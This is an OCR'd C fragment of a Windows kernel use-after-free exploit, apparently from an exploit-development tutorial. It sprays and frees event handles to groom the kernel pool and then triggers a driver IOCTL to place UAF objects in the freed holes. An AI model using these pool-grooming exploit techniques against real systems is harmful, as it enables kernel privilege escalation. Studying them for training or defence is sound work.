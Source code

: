 ```c
	// Spray 5000 objects to fill the new page
	for (int i = 0; i <= 5000; i++)
	{
		// Create the objects
		HANDLE tempHandle = CreateEventA(
			NULL,
			FALSE,
			FALSE,
			NULL
		);

		// Assign the handles to the array
		eventObjects[i] = tempHandle;
	}

	// Check to see if the first handle is a valid handle
	if (eventObjects[0] == NULL)
	{
		printf("[-] Error! Unable to spray CreateEventA objects! Error: 0x%lx\n", GetLastError());
		exit(-1);
	}
	else
	{
		printf("[+] Sprayed CreateEventA objects to fill holes of size 0x80!\n");

		// Close half of the handles
		for (int i = 0; i <= 5000; i += 2)
		{
			BOOL tempHandle1 = CloseHandle(
				eventObjects[i]
			);

			eventObjects[i] = NULL;

			// Error handling
			if (!tempHandle1)
			{
				printf("[-] Error! Unable to free the CreateEventA objects! Error: 0x%lx\n", GetLastError());
				exit(-1);
			}
		}

		printf("[+] Poked holes in the new pool page!\n");

		// Allocate UaF Objects in place of the poked holes by just invoking the IOCTL, which will call ExAllocatePoolWithTag for a UAF object
		// kLFH should automatically fill the freed holes with the UAF objects
		DWORD bytesReturned;

		for (int i = 0; i < 2500; i++)
		{
			DeviceIoControl(
				driverHandle,
				0x00222053,
				NULL,
				0,
				NULL,
				0,
				&bytesReturned,
				NULL
			);
		}
```